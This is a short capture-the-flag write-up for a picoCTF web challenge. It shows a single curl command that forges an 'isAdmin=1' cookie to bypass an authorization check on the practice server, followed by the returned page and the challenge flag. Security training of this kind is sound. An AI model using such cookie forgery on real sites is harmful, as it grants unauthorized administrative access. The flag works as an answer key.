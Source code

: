 ## Descripcion
Can you get the flag? Go to this [website](http://saturn.picoctf.net:57688/) and see what you can discover.

## Pistas 
****** 
## Solucion
```
jt@jt-VirtualBox:~$ curl --cookie "isAdmin=1" http://saturn.picoctf.net:57688/check.php




<html>
<body>



<p>picoCTF{gr4d3_A_c00k13_0d351e23}</p>


</body>
</html>
```
## bandera
picoCTF{gr4d3_A_c00k13_0d351e23}
## Notas adicionales 

## Referencias